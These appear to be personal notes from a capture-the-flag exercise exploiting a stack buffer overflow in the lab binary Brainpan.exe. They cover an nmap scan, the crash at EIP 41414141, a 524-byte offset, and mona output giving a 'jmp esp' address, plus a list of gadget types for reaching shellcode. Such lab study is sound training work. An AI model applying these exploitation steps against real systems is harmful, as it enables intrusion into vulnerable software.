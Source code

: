 Brainpan.exe 

Finding open Port

	*Find the open port using nmap or netstat -a cmd
	  --> In this Exercise, I am using nmap cmd: sudo namp -p- 192.168.56.1 -A --v
	  result:
	  
	  	9999/tcp  open  abyss?        syn-ack ttl 128
		| fingerprint-strings: 
			|   NULL: 
			|     _| _| 
			|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
			|     _|_| _| _| _| _| _| _| _| _| _| _| _|
			|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
			|     [________________________ WELCOME TO BRAINPAN _________________________]
			|_    ENTER THE PASSWORD
	

Finding offset & AccessViolation
	
	
	*Send large buffer length 5000
	 ---> Debug Info

		EXCEPTION_DEBUG_INFO:
           		dwFirstChance: 1
           		ExceptionCode: C0000005 (EXCEPTION_ACCESS_VIOLATION)
          		ExceptionFlags: 00000000
        		ExceptionAddress: 41414141
       			 NumberParameters: 2
		ExceptionInformation[00]: 00000000 Read
		ExceptionInformation[01]: 41414141 Inaccessible Address
		First chance exception on 41414141 (C0000005, EXCEPTION_ACCESS_VIOLATION)!
	*vulnarblity finded stack based overflow


	* Craft payload and find eip pointer 
	* Note that EBP pointer also points to the buffer 
	* We can also jmp to ebp it will used to land on shellcode

Basic command 

	OFFSET 524
	x64dbg:
		mona plugin:
			mona.mona("mona help")
			mona.mona("mona modules")
			mona.mona("mona jmp -r esp")
		[+] Command used:
		!mona mona jmp -r esp

		---------- Mona command started on 2024-08-08 03:48:43 (v2.0, rev 577) ----------
	[+] Processing arguments and criteria
   		 - Pointer access level : X
	[+] Generating module info table, hang on...
    		- Processing modules
    		- Done. Let's rock 'n roll.
	[+] Querying 1 modules
    		- Querying module brainpan.exe
   		 - Search complete, processing results
	[+] Preparing output file 'jmp.txt'
   		 - (Re)setting logfile jmp.txt
		[+] Writing results to jmp.txt
    	- Number of pointers of type 'jmp esp' : 1 
	[+] Results : 
		0x311712f3 |   0x311712f3 : jmp esp |  {PAGE_EXECUTE_READ} [brainpan.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (brainpan.exe
	
	Tips:
		--> call register
		--> jmp  register
		--> pop pop ret
		--> pop ret
		--> push ret
		this all are use to jmp shellcode
